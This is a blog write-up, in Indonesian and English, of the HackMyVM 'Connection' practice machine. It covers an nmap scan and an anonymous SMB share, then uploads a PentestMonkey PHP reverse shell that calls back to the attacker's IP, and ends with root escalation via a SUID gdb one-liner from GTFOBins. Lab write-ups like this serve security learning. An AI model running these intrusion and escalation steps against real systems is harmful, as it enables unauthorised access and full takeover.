 ```yaml
---
layout: post
title:  "HackMyVM: Connection"
date:   2021-05-13 21:03:36 +0530
categories: [hackmyvm]
tags: [smb, ftp, suid, gdb, gtfobins]
---
```


kebosanan masih menyerang sampai hari ke 2 dari pertama kali bermain [HackMyVM](https://hackmyvm.eu). Baru dapat dilema pengen kembali main [HTB](https://hackthebox.eu) sama pengen coba mesin-mesin di [HMV](https://hackmyvm.eu). Haduh bingung men, jadi saya memutuskan untuk melanjutkan mesin ke 3 dari awal, dengan nama mesin [Connection](https://hackmyvm.eu/machines/machine.php?vm=Connection) yang mungkin masih dalam difficult easy.

## Contents
* [Reconnaissance](#recon)
    * [Getting IP Host Machine](#netdiscover)
    * [Ports](#nmap)
* [Shell as www-data](#data)
* [PrivEsc](#privesc)

## Recon {#recon}
### Getting IP Host Machine {#netdiscover}
![netdiscover](https://i.postimg.cc/XvNJhLmk/connection-1.png)

### Ports {#nmap}
```bash
auvia connection # nmap -A -sCV connection.hmv -oN scan_new.nmap

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-13 19:23 WIB
Nmap scan report for connection.hmv (192.168.56.111)
Host is up (0.00034s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:e6:01:b5:f9:06:a1:ea:40:04:29:44:f4:df:22:a1 (RSA)
|   256 fb:16:94:df:93:89:c7:56:85:84:22:9e:a0:be:7c:95 (ECDSA)
|_  256 45:2e:fb:87:04:eb:d1:8b:92:6f:6a:ea:5a:a2:a1:1c (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:55:A1:39 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: CONNECTION; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m52s, deviation: 2h18m34s, median: -7s
|_nbstat: NetBIOS name: CONNECTION, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: connection
|   NetBIOS computer name: CONNECTION\x00
|   Domain name: \x00
|   FQDN: connection
|_  System time: 2021-05-30T08:23:38-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-30T12:23:38
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.34 ms connection.hmv (192.168.56.111)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.58 seconds

```
Ports scanned, SSH (22), HTTP (80), Samba (139, 445). What is [Samba](https://www.samba.org/samba/what_is_samba.html)? probably like suatu komponen penting Unix yang terintegrasi dengan mulus terhadap lingkungan directory aktif (source: <https://samba.org>). So, saya disini akan menggunakan **smbclient** untuk melihat-lihat direktori yang aktif. Di mesin ini kita akan masuk dan login sebagai *guest* saja. terlihat dari scanning nmap diatas.
```s
| smb-security-mode: 
|   account_used: guest
```

## Shell as www-data {#data}
```vb
aoba connection # smbclient -L ////connection.hmv
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	share           Disk      
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Private Share for uploading files)
SMB1 disabled -- no workgroup available
```
disitu terlihat directory `share` aktif sebagai sarana saya untuk masuk dan mengunggah sebuah reverse shell PHP yang dibuat oleh [PentestMonkey](https://pentestmonkey.net).

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.1';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
``` 
lalu kita unggah reverse shell tadi via *smbclient*.
```bash
aoba connection # ls
index.html  passwd  scan_new.nmap  scan.nmap  shell.php
aoba connection # smbclient \\\\connection.hmv\\share
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 23 08:48:39 2020
  ..                                  D        0  Wed Sep 23 08:48:39 2020
  html                                D        0  Wed Sep 23 09:20:00 2020

		7158264 blocks of size 1024. 5462860 blocks available
smb: \> cd html
smb: \html\> ls
  .                                   D        0  Wed Sep 23 09:20:00 2020
  ..                                  D        0  Wed Sep 23 08:48:39 2020
  index.html                          N    10701  Wed Sep 23 08:48:45 2020

		7158264 blocks of size 1024. 5462860 blocks available
smb: \html\> put shell.php
putting file shell.php as \html\shell.php (45.1 kb/s) (average 45.1 kb/s)
smb: \html\> ls
  .                                   D        0  Wed Jun  2 01:34:56 2021
  ..                                  D        0  Wed Sep 23 08:48:39 2020
  index.html                          N    10701  Wed Sep 23 08:48:45 2020
  shell.php                           A     5494  Wed Jun  2 01:34:56 2021

		7158264 blocks of size 1024. 5462852 blocks available
smb: \html\> 
```
jika ingin lebih gampang, kalian (para pembaca) bisa menginstall lewat package manager yang ada pada distro kalian masing-masing.
```s
auvia connection # pacman -S webshells
```
dan itu akan terinstall automatically ke mesin kalian pada directory **/usr/share/webshells**.

tell me if im leet.

![img](https://i.postimg.cc/sDZkGcZL/connection-2.png)

## PrivEsc {#privesc}
```sh
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@connection:/$ export TERM=xterm-256color
```
line pertama, untuk memunculkan bash yang nyaman dipandang. sedangkan line kedua untuk you knowlah kenyamanan terminal `xterm-256color`. dan ya, mari kita cek SUID dulu untuk menemukan binary yang bisa tingkat lanjut ke tahap ekskalasi root.
```cs
www-data@connection:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd

```
`gdb` adalah sesuatu yang menarik untuk dijadikan bahan ekskalasi. [gtfobins](https://gtfobins.github.io) lagi dan lagi...

```vb
www-data@connection:/$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
"-p")' -ex quitthon import os; os.execl("/bin/sh", "sh", "
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# cd /root
# ls
ls
proof.txt
# cat proof.txt
a7c6ea4931ab86fb54c540xxxxxxxxxx
```
